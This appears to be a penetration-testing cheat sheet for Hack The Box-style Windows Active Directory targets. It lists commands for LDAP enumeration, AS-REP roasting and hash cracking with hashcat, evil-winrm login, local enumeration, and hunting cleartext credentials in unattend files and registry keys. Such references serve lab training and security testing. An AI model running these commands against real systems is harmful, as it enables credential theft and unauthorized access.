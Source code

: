 __LDAP 389__
```
ldapsearch -h 10.10.10.10 -p 389 -x -b DC=fris,DC=local
```

__Kerberos 88__
```
GetNPUsers.py -dc 10.10.10.x -request 'htb.local/' -format hashcat
hashcat -m 18200 hashes/{name} /usr/share/wordlist/rockyou.txt -r rules/InsidePro-PasswordsPro.rule
```

__WINRM 5985__
```
ruby evil-winrm.rb -i 10.10.10.10 -u s.appel -p 'fr1s'
```


### Gather info
__cmd.exe__
```
whoami
echo %username%
systeminfo
hostname
net use
net view
net user
net user <username>
net localgroup
set
findstr /C:"<autoElevate>true" 
schtasks /query /fo LIST /v | findstr "tomcat"
```
__Powershell__
```
$ExecutionContext.SessionState.LanguageMode
$Env:Path
Get-volume
hostname
get-process
get-service
Get-NetFirewallRule
Get-Childitem
Get-Content
```

__networking stuff__

```
netstat -ano
route print
```

__Looking for cleartext passwords?__

```
c:\sysprep.inf
c:\sysprep\sysprep.xml
c:\unattend.xml

%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml

reg query "HKCU\Software\ORL\WinVNC3\Password"

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
reg query HKLM /f password /t REG_SZ /s
```